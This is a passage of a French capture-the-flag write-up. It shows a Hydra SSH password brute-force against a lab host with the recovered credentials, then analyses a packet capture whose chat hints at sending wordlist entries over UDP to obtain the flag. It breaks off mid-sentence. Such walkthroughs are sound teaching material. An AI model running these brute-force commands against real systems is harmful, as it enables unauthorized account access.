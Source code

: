 ```console
$ hydra -l cysec -P passwordlist.txt ssh://192.168.242.133
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:1/p:9), ~1 try per task
[DATA] attacking ssh://192.168.242.133:22/
[22][ssh] host: 192.168.242.133   login: cysec   password: MMT33gs*5
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished
```

On est visiblement reparti pour une analyse réseau :

```console
[cysec@localhost ~]$ ls
Desktop  Documents  Downloads  ftp  Music  Pictures  Public  Templates  use_scapy_with_your_attack_analyze_me_to_understand.pcapng  Videos
```

Ce `pcapng` contient différentes communications entre `192.168.78.138` et `192.168.78.1`.

Il y a notamment une conversation sur le port destination 5001 :

> hello John
> 
> hello Chris
> 
> im fine
> 
> perfect so i need you to send the secret key.[D.[D.[D.[D.[D.[D.[D.[D.[D.[D.[D.[D.[D.[D.[D.[D.[D
> 
> ok
> 
> what is it ?
> 
> look at file answer.txt from this url http://192.168.78.1/answer.txt
> 
> ok
> 
> kkare you know how to use it ?
> 
>  no , tell me please
> 
> ok you have to send every word on the answer.txt file in UDP packet on port 8991 as payload , the correct one will return your flag
> 
> thanks your welcomewhat ? OK !!Bye

Plus tard dans la capture il y a la requête HTTP correspondante :
